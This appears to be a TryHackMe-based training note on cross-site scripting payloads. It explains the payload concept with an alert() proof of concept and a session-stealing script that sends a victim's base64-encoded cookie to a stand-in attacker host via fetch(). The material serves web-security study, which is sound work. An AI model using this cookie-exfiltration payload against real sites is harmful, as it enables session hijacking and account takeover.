 We have successfully injected the code, our XSS! What does it mean? For example, that we may use this flaw to try to steal a userâ€™s session cookie.


# TRYHACKME SECTION
---

## XSS Payloads

---


### **What is a payload?**
---
InÂ XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

  

The intention is what you wish the JavaScript to actually do (which we'll cover with some examples below), and the modification is the changes to the code we need to make it execute as every scenario is different (more on this in the perfecting your payload task).

  

Here are some examples ofÂ XSSÂ intentions.

  

### **Proof Of Concept:**
---
This is the simplest of payloads where all you want to do is demonstrate that you can achieveÂ XSSÂ on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:

  

```javascript
<script>alert('XSS');</script>`
```



### **Session Stealing:**
---
Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

  

```js
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```  

  
